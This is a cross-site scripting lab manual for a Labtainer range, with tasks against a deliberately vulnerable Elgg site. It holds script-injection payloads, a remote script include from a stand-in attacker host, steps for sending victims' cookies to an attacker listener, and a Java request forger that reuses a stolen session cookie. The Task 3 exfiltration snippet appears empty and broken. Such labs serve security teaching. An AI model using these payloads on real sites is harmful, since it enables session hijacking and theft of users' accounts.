

Cross-Site Scripting (XSS) Attack Lab
=================================

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.



Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

- You will have successfully completed this task once you have been able to get a pop-up alert (with a message) to appear upon any browser session open to Samy's profile page.

Bonus Info
=====

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

- You will have successfully completed this task once you have been able to get a pop-up to appear upon any browser session open to Samy's profile page, which displays the user's cookie.

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('');</script>

# The attacker's IP address  is 172.25.0.3
```
- The TCP server program on the attacker's machine will print out what it recieved. to start this application on the attacker's machine, navigate to the "echoserver" directory.
- Access the "README" file and figure out how to run this program.  You **MUST** start the schoserv program before doing the XSS so that the attacker's machine can recieve the cookie informaiton that is sent.

- You will have completed this task once you have successfully been able to transmit cookie information from a user's session to the attacker's machine and read this out through the echoserv program.


Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

- Log in as another user (charlie for example)
- Open the Web Developer > Network Tool in your firefox browser.
- Now add Samy as a friend.  Look at the "GET" request. Note the elgg_ts and elgg_token. Also note that Samy's's user ID is 42. These are unique for each user.

- **Remove Samy as a friend.

- In the attacker's terminal, navigate to the "/HTTPSimpleForge" directory on the attacker machine and open the "HTTPSimpleForge.java" program in the text editor leafpad:
 
 ```
 leafpad HTTPSimpleForge.java
 ```
- Change the following lines:

```
String requestDetails = "&__elgg_ts=1599761839&__elgg_token=88d6c723d87b0aee53aa7b5ef0aaec1c";
// URL to be forged.
URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
 ```
 ```
String cookies = "Elgg=cj1be6flek57vflghcdk2r2qb0";
 
```
- Save the file and close leafpad.

 **Note** Compile and run the java program using 
   
```
javac HTTPSimpleForge.java 
java HTTPSimpleForge
```


- The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. 
 
 - Check the friends that were added and note whether or note Samy was added.

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
```
$ stoplab xsite

```


